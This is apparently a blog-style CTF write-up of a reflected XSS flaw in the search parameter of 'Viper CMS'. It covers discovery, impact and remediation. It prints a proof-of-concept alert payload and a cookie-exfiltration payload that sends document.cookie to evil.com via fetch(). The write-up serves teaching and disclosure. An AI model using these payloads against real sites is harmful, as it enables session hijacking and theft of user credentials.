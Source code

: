 ```yaml
---
title: "Dog Machine"
image: "/AdminDashboard.jpg"
date: "2023-10-15"
category: "ctf"
tags: ["xss", "security"]
description: "Detailed writeup of a cross-site scripting vulnerability"
---
```


# 🐾 Reflected XSS in Viper CMS

During a routine penetration test on **Viper CMS**, I discovered a **reflected cross-site scripting (XSS)** vulnerability in the `search` query parameter.

<Note>
  This test was performed on a self-hosted environment. Always obtain proper authorization before testing systems that you do not own.
</Note>

---

## 🔍 Discovery

While testing input fields across the application, I noticed the `search` endpoint echoed back unsanitized user input directly into the HTML.

## 🧪 Vulnerable Parameter

`http://localhost/search?q=<script>alert('xss')</script>`

When this payload was injected, the script was executed in the browser, confirming a reflected XSS.

The key issue was the absence of HTML escaping on the q parameter in the rendered output.

## 💥 Exploitation

This type of vulnerability allows attackers to:

- Execute JavaScript in a victim’s browser
- Steal cookies, session tokens, or other sensitive information
- Perform actions on behalf of the user (CSRF-like effects)
- Bypass some client-side validations

Example payload:

`<script>fetch('https://evil.com/log?c=' + document.cookie)</script>`

This would exfiltrate a user's cookies to an external server controlled by the attacker.

## 🔐 Remediation

The application should escape user input before rendering it back to the browser. Proper remediation steps include:

- HTML encode (&lt;, &gt;, &quot;, etc.)
- Use templating engines that auto-escape
- Employ CSP (Content Security Policy) headers
- Sanitize input using libraries like DOMPurify

## 🧾 Summary

| Field      | Details                          |
|------------|----------------------------------|
| Vulnerability | Reflected XSS in search        |
| CMS        | Viper CMS                       |
| Payload    | `<script>alert('xss')</script>` |
| Impact     | Script execution, session theft  |
| Status     | ✅ Reported and Fixed           |

If you'd like to explore this vulnerability further, try replicating it in a local VM or Docker container with Viper CMS installed.

<Note> Educate, don't exploit. Use knowledge responsibly. </Note>